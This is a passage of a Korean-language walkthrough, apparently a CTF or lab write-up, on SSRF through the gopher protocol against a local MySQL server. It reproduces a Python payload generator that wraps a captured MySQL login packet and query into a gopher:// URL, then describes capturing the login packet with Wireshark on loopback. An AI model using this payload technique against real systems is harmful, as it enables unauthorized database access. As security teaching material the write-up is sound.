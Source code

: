 페이로드 작성은 친절하게도 이미 누군가가 파이썬 코드를 작성 해 올려두었다.  

[https://github.com/tarunkant/Automation/blob/master/SSRF-through-Gopher.py](https://github.com/tarunkant/Automation/blob/master/SSRF-through-Gopher.py)

```python
dump = raw_input("Give connection packet of mysql: ")
query = raw_input("Give query to execute: ")

auth = dump.replace("\n","")

def encode(s):
    a = [s[i:i + 2] for i in range(0, len(s), 2)]
    return "gopher://127.0.0.1:3306/_%" + "%".join(a)


def get_payload(query):
    if(query.strip()!=''):
    	query = query.encode("hex")
    	query_length = '{:x}'.format((int((len(query) / 2) + 1)))
    	pay1 = query_length.rjust(2,'0') + "00000003" + query
    	final = encode(auth + pay1 + "0100000001")
    	return final
    else:
	return encode(auth)

print "\nYour gopher link is ready to do SSRF : \n"
print get_payload(query)
```

그럼 이제 내가 할 것은 MySQL 로그인 패킷을 잡는 것이다.  

이 패킷을 잡으려면 `lo`라는 자신에게 송수신하는 루프백 네트워크 디바이스의 패킷을 잡아야 한다.  

`tcpdump`로도 잡을 수 있지만, 나는 `Wireshark`를 사용하기로 했다.  

`Ubuntu Desktop` 버전에서 `apt-get install wireshark` 하면 다운받을 수 있다. ~~데스크탑 버전 안쓰는데 이거 때문에 새로 설치함~~  

`Wireshark`를 실행시킨 후 `Loopback: lo`를 선택한다.  

이 후 새로운 터미널을 열어서 아래와 같이 입력한다.  

```
mysql -h 127.0.0.1 -u ssrf_user
```

앞서 `config.php` 파일에서 본 `MySQL` 사용자의 이름이 `ssrf_user`이기 때문에 `-u ssrf_user`를 입력 해 주었다.  

그런데 우리는 `요청하는 패킷`만 필요할 뿐, 응답은 필요없기 때문에 로그인에 성공하지 않아도 된다.  

`Wireshark`에 패킷이 잡혀있을텐데, 그 중 `MySQL` 프로토콜에서 `Login Request`라고 써진 패킷을 잡아보면 아래와 같을 것이다.  
